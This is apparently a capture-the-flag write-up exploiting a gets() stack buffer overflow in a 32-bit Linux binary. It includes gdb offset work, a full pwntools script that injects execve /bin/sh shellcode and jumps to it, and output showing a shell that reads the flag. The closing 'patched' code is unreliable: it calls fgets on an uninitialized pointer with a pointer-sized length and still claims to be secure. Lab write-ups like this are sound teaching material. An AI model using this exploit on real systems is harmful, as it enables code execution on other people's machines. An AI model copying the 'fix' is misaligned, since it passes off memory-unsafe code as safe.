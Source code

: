 Let's take a look at the source code...

```
#include <stdio.h>
#include <string.h>

void nothing()
{
	char* buf0[50];
	printf("%p\n", &buf0);
	gets(buf0);
}

int main()
{
	printf("Even if you do hack this elf, what are you going to do?. You should really get back to research.\n");
	nothing();
}
```

So we can see that it suffers from the same buffer overflow vulnerabillity as the rest. However unlike the previous levels, there isn't anywhere in here that will print out "Level Cleared!". So we will have to somehow pop a shell and read the "out file". What we can do, is we can push our own shellcode (shellcode is precompiled assembly code that you can push onto a program of the same architecture, and it should be able to run) onto the stack than overwrite the eip register to execute the shellocde. So essentially we will be writing code to the program, than executing that code. We can see that the elf prints out the address of the buffer, so that is one less thing we have to worry about. The first thing we will need is to find out how many characters we will have to write to reach the eip register.

```
gdb-peda$ disas nothing
Dump of assembler code for function nothing:
   0x0804844b <+0>:	push   ebp
   0x0804844c <+1>:	mov    ebp,esp
   0x0804844e <+3>:	sub    esp,0xd8
   0x08048454 <+9>:	sub    esp,0x8
   0x08048457 <+12>:	lea    eax,[ebp-0xd0]
   0x0804845d <+18>:	push   eax
   0x0804845e <+19>:	push   0x8048540
   0x08048463 <+24>:	call   0x8048300 <printf@plt>
   0x08048468 <+29>:	add    esp,0x10
   0x0804846b <+32>:	sub    esp,0xc
   0x0804846e <+35>:	lea    eax,[ebp-0xd0]
   0x08048474 <+41>:	push   eax
   0x08048475 <+42>:	call   0x8048310 <gets@plt>
   0x0804847a <+47>:	add    esp,0x10
   0x0804847d <+50>:	nop
   0x0804847e <+51>:	leave  
   0x0804847f <+52>:	ret    
End of assembler dump.
gdb-peda$ b *nothing+47
Breakpoint 1 at 0x804847a
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b4/b4 
Even if you do hack this elf, what are you going to do?. You should really get back to research.
0xffffcf68
0000
```

One wall of text later...

```
Breakpoint 1, 0x0804847a in nothing ()
gdb-peda$ x/x $ebp-0xd0
0xffffcf68:	0x30303030
gdb-peda$ info frame
Stack level 0, frame at 0xffffd040:
 eip = 0x804847a in nothing; saved eip = 0x80484a6
 called by frame at 0xffffd060
 Arglist at 0xffffd038, args: 
 Locals at 0xffffd038, Previous frame's sp is 0xffffd040
 Saved registers:
  ebp at 0xffffd038, eip at 0xffffd03c
```

So we have the addess of the buffer (0xffffcf68) and the eip register (0xffffd03c). Now to find the distance we need to reach it.

```
>>> 0xffffd03c - 0xffffcf68
212
```

So we will have 212 bytes untill we reach the eip register. So we have the offset, and the address that we want to write to. The last thing we will need is the shellcode. For shellcode you can either write it yourself, or look it up online. I typically get my shellcode from this website.

http://shell-storm.org/shellcode/

and a link to the exact shell code I'm using for this exploit

http://shell-storm.org/shellcode/files/shellcode-597.php

Now keep in mind, when you are picking/writing your shellcode you have to have the same binary architecture. We are currently dealing with a 32 bit linux elf, so if you are picking shellcode from that website it should be under the Linux/x86 category.

Now that we have our shellcode, the address of the buffer, and the offset we can write our exploit. We will have to adjust the filler we use to reach the eip register to allow room for the shellcode. The shellcode I am using is 34 bytes long, so my filler will be 212-34 = 178 characters long. However this time I will actually write a python script instead of just a one liner. The reason for this is the address of the buffer will change under certain circumstances, so it is better to read it every time you run the exploit instead of just hardcoding it in. For this exploit I used pwntools, because it is a really big help and takes care of a lot of the hassle for me. Here is my exploit.

```
#Import the pwntools library.
from pwn import *

#The process is like an actualy command you run, so you will have to adjust the path if your exploit isn't in the same directory as the challenge.
target = process("./b4")

#Just receive the first line, which for our purposes isn't important.
target.recvline()

#Store the address of the buffer in a variable, and strip away the newline to prevent conversion issues
address = target.recvline().strip("\n")

#Convert the string to a hexidecimal
address = int(address, 16)

#Pack the hexidecimal in little endian for 32 bit systems
address = p32(address)

#Store the shellcode in a variable
shellcode = "\x6a\x18\x58\xcd\x80\x50\x50\x5b\x59\x6a\x46\x58\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80"

#Make the filler to reach the eip register
filler = "0"*178

#Craft the payload
payload = shellcode + filler + address

#Send the payload
target.sendline(payload)

#Drop into interactive mode so you can use the shell
target.interactive()
```

Now let's try out the exploit...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b4$ python exploit.py 
[+] Starting local process './b4': Done
[*] Switching to interactive mode
$ echo Is this working?
Is this working?
$ ls
b4  b4.c  exploit.py  out
$ cat out
I see, you brough your own topics to research. Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b4' stopped with exit code 0
[*] Got EOF while sending in interactive
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b4$ 
```

And just like that, we pwned the binary. Now let's fix it.

```
#include <stdio.h>
#include <string.h>

void nothing()
{
	char* buf0[50];
	printf("%p\n", &buf0);
	fgets(*buf0, sizeof(*buf0), stdin);
}

int main()
{
	printf("Even if you do hack this elf, what are you going to do?. You should really get back to research.\n");
	nothing();
}
```

Let's test it...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b4$ python -c 'print "0"*400' | ./b4_secure 
Even if you do hack this elf, what are you going to do?. You should really get back to research.
0xffffcf78
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b4$ 
```

Just like that, we patched the binary.

